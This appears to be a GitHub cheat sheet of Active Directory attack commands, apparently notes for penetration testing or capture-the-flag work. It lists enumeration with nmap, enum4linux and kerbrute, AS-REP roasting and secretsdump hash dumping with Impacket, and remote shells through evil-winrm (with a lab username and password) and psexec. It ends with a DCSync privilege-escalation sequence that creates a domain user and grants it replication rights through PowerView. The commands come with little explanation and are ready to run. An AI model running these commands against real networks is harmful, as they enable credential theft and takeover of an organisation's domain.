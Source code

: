 # Active Directory

## Enumeration

Nmap: `sudo nmap -n -sV --script "ldap* and not brute" <IP>`

Enum4Linux: `enum4linux <IP>`

Kerbrute: `./kerbrute userenum -d <Domain Controller> --dc <Target IP> /<Wordlst>`

## SMB

If Port 5985 is OPEN, you may be able to access a shell with valid SMB Credentials

SMB Shell: `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

SMB Connection `smbclient \\<IP>\<Share> -U '<Username>'`

## Impacket Scripts

AS-REP Roasting

GetNPUsers: 

`sudo python3 GetNPUsers.py <Domain Controller>/<Valid Username> -no-pass`

`sudo python3 GetNPUsers.py <Domain Controller>/ -dc-ip <IP> -request`

Hash Dump After DCSync

SecretsDump: `sudo python3 secretsdump.py <Domain Controller>/<New Username>@<IP>`

Remote PowerShell Connection

PsExec: `python psexec.py <Domain Controller>/<Username>:<Password>@<IP>`

## Bloodhound

Install: `sudo pip3 install bloodhound && wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip && unzip BloodHound-linux-x64.zip && mv BloodHound-linux-x64/BloodHound . && rm -rf BloodHound-linux-x64.zip BloodHound-linux-x64/`

Get Info: `bloodhound-python -d <Domain Controller> -u <Valid Username> -p <Password> -gc <Gloabl Catalog> -c all -ns <IP>`

Neo4j Console: `neo4j console`

# PowerView

Download: `curl -O https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1`

# DCSync Attack 

`net user <New Username> <New Password> /add /domain`

`net group "Exchange Windows Permissions" <New Username> /add /domain`

Import PowerView

`$pass = convertto-securestring '<New Password>' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('<Domain Controller>\<New Username>', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=<dc>,DC=<dc>" -PrincipalIdentity "<New Username>" -Rights DCSync`

# Extra Resources

[What is AS-REP Roasting?](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

[Kuberos DCSync Attacks Explained](https://www.qomplx.com/kerberos_dcsync_attacks_explained/)

[PowerView 3.0 Tips & Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
